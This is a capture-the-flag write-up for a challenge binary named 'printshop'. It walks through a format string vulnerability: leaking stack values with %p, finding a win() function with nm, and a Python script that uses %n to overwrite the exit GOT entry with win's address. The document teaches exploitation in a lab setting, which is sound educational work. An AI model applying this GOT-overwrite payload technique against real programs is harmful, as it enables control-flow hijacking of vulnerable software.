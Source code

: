 Yes it leaking values, which confirms that it is a simple case of format string vulnerability.

Since there is a call to `exit` after our vulnerable `printf` we can use this vulnerability to overwrite the GOT entry for exit with some other memory address.

But where exactly to jump to? Initially I was thinking about ROP chaining but that's a bit too much for an "EASY" challenge. Then I looked at a few other functions in the binary:

```console
$ nm printshop
000000000040038c r __abi_tag
0000000000404078 B __bss_start
00000000004040a8 b completed.0
...
00000000004040a0 B stderr@GLIBC_2.2.5
0000000000404090 B stdin@GLIBC_2.2.5
0000000000404080 B stdout@GLIBC_2.2.5
0000000000404078 D __TMC_END__
000000000040129d T win
```

`win()` seems interesting. We don't need to see its disassembly, its obvious from the name that this is the function we need to jump to.

Let's throw a bunch of %p characters and see what values we are leaking:

```console
$ python -c 'print("%p " * 20)' | ./printshop

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

0x7fd9c803b643 (nil) 0x7fd9c7f00aa4 0x1 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 (nil) (nil) (nil) 0x7fd9c826c730 (nil) 0xa4bd4f226a5b5000 0x1
```

We see an interesting pattern of repeating hex value: 0x70 0x25 0x20. They are nothing but 'p', '%', ' '.

Basically we start leaking our own input from the 6th argument. At this point we have 2 choice:

1. Manually craft the payload

2. Use pwntools

#### Manual way

During the challenge I used the manual way of exploiting it.

Here is the `exploit.py` script:

```python
import sys
import struct

EXIT_GOT = 0x404060
WIN = 0x40129d


payload  = b''
payload += '%{}p'.format(str(WIN)).encode()
payload += b'%17$n'
payload += b'-' * ( 99 - len(payload) - 8 - 3 )
payload += struct.pack("Q", EXIT_GOT)
payload += b'\n'

sys.stdout.buffer.write(payload)
```